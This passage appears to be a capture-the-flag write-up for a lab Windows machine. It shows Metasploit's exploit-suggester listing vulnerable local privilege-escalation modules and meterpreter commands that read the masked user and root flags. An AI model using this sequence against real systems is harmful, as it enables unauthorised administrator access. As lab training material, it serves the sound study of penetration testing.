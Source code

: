 Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
The "exploit/windows/local/ms10_015_kitrap0d", "exploit/windows/local/ms14_058_track_popup_menu", and "exploit/windows/local/ppr_flatten_rec" modules provide a shell with administrator privilege.
Post-Exploitation:
The Desktop folder inside the user and administrator directories contains the user and root flags.
meterpreter > cd Documents\ and\ Settings 
meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-04-12 10:12:15 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-04-12 10:32:01 -0400  Harry
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:32 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:31 -0400  NetworkService

meterpreter > cd Harry 
meterpreter > cd Desktop 
meterpreter > cat user.txt 
bd****************************69
meterpreter > cd ../..
meterpreter > cd Administrator 
meterpreter > cd Desktop 
meterpreter > cat root.txt 
93****************************7b
